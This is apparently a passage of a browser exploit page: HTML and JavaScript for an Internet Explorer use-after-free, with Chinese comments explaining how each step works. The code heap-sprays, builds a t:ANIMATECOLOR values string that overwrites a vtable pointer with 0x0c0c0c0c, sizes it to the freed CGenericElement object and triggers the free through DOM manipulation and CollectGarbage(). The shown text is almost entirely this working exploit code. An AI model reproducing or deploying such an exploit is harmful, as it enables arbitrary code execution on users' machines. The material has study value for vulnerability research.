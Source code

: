 ```
 var slide = new Array();
 for (var i = 0; i &lt; 400; i++)`{`
 slide[i] = block.substring(0, block.length);
 `}`
(1);
&lt;/script&gt;
&lt;script&gt;
function helloWorld()
`{`
 animvalues = "";  
 for (i=0; i &lt;= 0x70/4; i++) `{`
 // t:ANIMATECOLOR 标签第一个对象用于覆盖虚表指针
 // 由于索引虚函数时，需要偏移0x70，所以这里采用0x70/4去精确控制edx值
 if (i == 0x70/4) `{`
 animvalues += unescape("%u0c0c%u0c0c");   // 控制edx
 `}`
 else `{`
 animvalues += unescape("%u4242%u4242");   // 0x42424242
 `}` 
 `}`
 for(i = 0; i &lt; 13; i++) `{`
 // t:ANIMATECOLOR 标签值是一个用分号分隔的字符串，分号的个数决定对象的大小，
 // 对象的每个元素都是一个指针，指向分号分隔出来的字符串
 // 漏洞对象CGnericElement大小0x4c，所以这里需要包含0x4c/4=13个分号的字符串
 animvalues += ";red"; 
 `}`
 f0 = document.createElement('span');
 document.body.appendChild(f0);
 f1 = document.createElement('span');
 document.body.appendChild(f1);
 f2 = document.createElement('span');
 document.body.appendChild(f2);
 document.body.contentEditable="true";
 f2.appendChild(document.createElement('datalist'));
 f1.appendChild(document.createElement('span'));
 f1.appendChild(document.createElement('table'));
 try`{`
 f0.offsetParent=null;
 `}`catch(e) `{``}`
 f2.innerHTML="";
 f0.appendChild(document.createElement('hr'));
 f1.innerHTML="";
 CollectGarbage();
 try `{`
 //使用 t:ANIMATECOLOR 标签可以自由设置其内容，控制对象大小
 a = document.getElementById('myanim');
 a.values = animvalues;
 `}`
 catch(e) `{``}`
`}`
&lt;/script&gt;
&lt;/head&gt;
&lt;body onload="eval(helloWorld());"&gt;
&lt;t:ANIMATECOLOR id="myanim"/&gt;
&lt;/body&gt;
&lt;/html&gt;
```
